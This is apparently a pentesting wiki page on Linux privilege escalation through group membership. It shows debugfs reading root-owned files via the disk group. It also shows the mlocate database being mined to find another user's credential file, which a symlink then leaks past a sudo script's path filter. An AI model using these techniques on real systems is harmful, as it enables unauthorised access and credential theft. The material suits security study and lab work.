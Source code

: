 # Groups

## Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```

## Filter

The `filter` group is usually a **custom group**, not a default Linux group, and it’s commonly used to manage permissions around mail content filtering components. It can be assigned writable access to sensitive files, such as [disclaimer files](../../../../../services/tcp/mail/smtp-25-587.md#disclaimer-files), which can lead to PE.

## Mlocate

The `mlocate` group exists on Linux systems with the `mlocate` utility installed, which maintains a searchable index of the filesystem at `/var/lib/mlocate/mlocate.db`. This database is normally restricted, as it may list files and directories that a user cannot access directly. However, members of the `mlocate` group can read it and extract full file paths — including sensitive or hidden files like credentials, SSH keys, or backups.

While the database does **not** expose file contents or permissions, it reveals **what exists and where**, making it highly valuable for enumeration and targeting during privilege escalation. Thus, being in the `mlocate` group is a significant **information disclosure vector**. It doesn’t give direct access to files, but it reveals **what to target**, which is often the hardest part of privilege escalation.

As an example, let's say that on a Linux host (`kali`), a user named `bob` is part of the `mlocate` group, thus, it has access to the prebuilt file index database located at `/var/lib/mlocate/mlocate.db`.

{% code overflow="wrap" %}
```bash
$ id
uid=1000(bob) gid=1000(bob) groups=1000(bob),100(users),119(mlocate)

$ find / -group mlocate 2>/dev/null
/var/lib/mlocate/mlocate.db
/usr/bin/mlocate
```
{% endcode %}

A privileged script exists at `/usr/bin/sync.sh`, owned by `root`, world-readable and executable. It’s configured in `sudo -l` such that `bob` can run it as user `mark`:

```bash
$ sudo -l
(bob) may run the following commands on kali:
    (mark) /usr/bin/sync.sh
    
$ ls -la /usr/bin/sync.sh
-rwxr-xr-x 1 root root 386 Jul 13  2022 /usr/bin/sync.sh
```

Reviewing the script reveals that it accepts a file path as an argument. It then compares that file to `/home/mark/personal/notes.txt` using `diff`, and if a difference is detected, it overwrites `notes.txt` with the provided file. However, it includes two constraints:&#x20;

1. If no argument is supplied, it exits
2. If the file path contains the string `mark`, it also exits. This prevents directly referencing the target file.

```bash
#!/bin/bash

if [ -z $1 ]; then
    echo "error: note missing"
    exit
fi

note=$1

if [[ "$note" =~ .*mark.* ]]; then
    echo "error: forbidden"
    exit
fi

difference=$(diff /home/mark/personal/notes.txt $note)

if [[ -z $difference ]]; then
    echo "no update"
    exit
fi

echo "Difference: $difference"
cp $note /home/mark/personal/notes.txt
echo "[+] Updated."
```

This creates a controlled file write into a sensitive path owned by another user. But to exploit it, several conditions must be met:

* The name `mark` cannot appear in the input path.
* The target file must be known ahead of time.
* The file being supplied must be different from `notes.txt`.

Since direct browsing into `/home/mark/` is not possible due to permission restrictions, the membership in the `mlocate` group becomes useful. The user can extract strings from the `mlocate` database to enumerate the contents of `/home/mark/personal/`:

{% code overflow="wrap" %}
```bash
$ grep -a -o -P '[\x20-\x7E]{4,}' /var/lib/mlocate/mlocate.db | grep '/home/mark/personal' -A10
# or 
$ strings /var/lib/mlocate/mlocate.db | grep '/home/mark/personal'
/home/mark/personal/creds.txt
```
{% endcode %}

Although the script prevents paths containing `mark`, this limitation can be bypassed using a symbolic link. A symlink pointing to the real target is created using a harmless name:

```bash
$ ln -sf /home/mark/personal/creds.txt decoy
```

When passed to the script, the symlink is followed. The `diff` command compares the contents of `creds.txt` to `notes.txt`, and if they differ, the script prints the diff and overwrites `notes.txt` with `creds.txt`.

```bash
$ sudo -u mark /usr/bin/sync.sh decoy
```

This results in the credentials being leaked directly to standard output via the `diff` command, satisfying all script conditions while bypassing path restrictions through symlink manipulation.
